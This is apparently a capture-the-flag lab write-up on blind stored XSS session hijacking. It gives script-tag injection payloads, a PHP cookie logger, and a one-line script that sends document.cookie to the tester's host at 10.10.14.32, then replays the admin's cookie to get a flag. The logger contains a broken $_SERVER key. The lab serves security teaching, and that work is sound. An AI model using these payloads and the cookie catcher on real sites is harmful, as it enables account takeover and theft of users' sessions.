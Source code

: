 ```yaml
---
description: >-
  Try to repeat what you learned in this section to identify the vulnerable
  input field and find a working XSS payload, and then use the 'Session
  Hijacking' scripts to grab the Admin's cookie and use it
---
```


# Session Hijacking

### Step 1: Register a user

1. First, we need to fill out a form to register as a user. We enter some information and hit the submit button.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 15-05-03 (2).png" alt=""><figcaption></figcaption></figure>

2. Once we do that, we see a message saying we registered successfully!

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 15-06-57 (2).png" alt=""><figcaption></figcaption></figure>

But here’s the tricky part: we can’t see what happens next because only the Admin can see that information in a special panel, and we don’t have access to it. Normally, we could test things to see if they work, but since we can’t see the Admin panel, how can we check if there’s a problem (called an XSS vulnerability) with our input?

### Step 2: Loading some Scripts

To find out if there’s a problem, we can use a clever trick. We’ll write a little piece of code (called a JavaScript payload) that sends a message back to our computer. If this code runs, it means the page has a vulnerability.

**Step 3: Create a Helper File and Test Our Payload**

Next, we need to create a file called `index.php`. This file will help us catch the messages. Here’s what we put in it:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['10.129.2.3']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we try different payloads to see which one works. Here are some examples:

```html
'><script src=http://10.10.14.32/fullname></script>
"<script src=http://10.10.14.32/username></script>
"><script src=http://10.10.14.32/image></script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 15-37-12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 15-42-03.png" alt=""><figcaption></figcaption></figure>

When we check our logs, we see a message that tells us one of our payloads worked!

### **Step 4: Create a JavaScript File**

Now, we need to make another file called `script.js`. This file will help us send our cookie (a little piece of information) back to us. Here’s what we write in it:

```bash
new Image().src='http://10.10.14.32/index.php?c='+document.cookie
```

### **Step 5: Put Our Trick in the Form**

Next, we go back to the form and paste our payload in all the fields except for the email and password. Here’s the payload we use:

```html
"><script src=http://10.10.14.32/script.js></script>
```

### **Step 6: Start the Helper Server**

Now, we need to run a command to start our helper server. We type this in:

```bash
sudo php -S 0.0.0.0:80
```

### **Step 7: Check for Messages**

After running the server, we check our logs (like a diary) to see if we caught any cookies. And guess what? We see the cookie!

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 15-54-41edited (1).png" alt=""><figcaption></figcaption></figure>

### **Step 8: Change the Cookie**

Now, we go to the `login.php` page and use inspect element to change the cookie. We find where it says "Storage" and "Cookies," click a plus sign, and paste our cookie value. We also change the name to "cookie."

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 16-00-28.png" alt=""><figcaption></figcaption></figure>

### **Step 9: Get the Flag**

Finally, we can see the secret message (the flag) that we were looking for!

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-12 16-08-39edited (1).png" alt=""><figcaption></figcaption></figure>

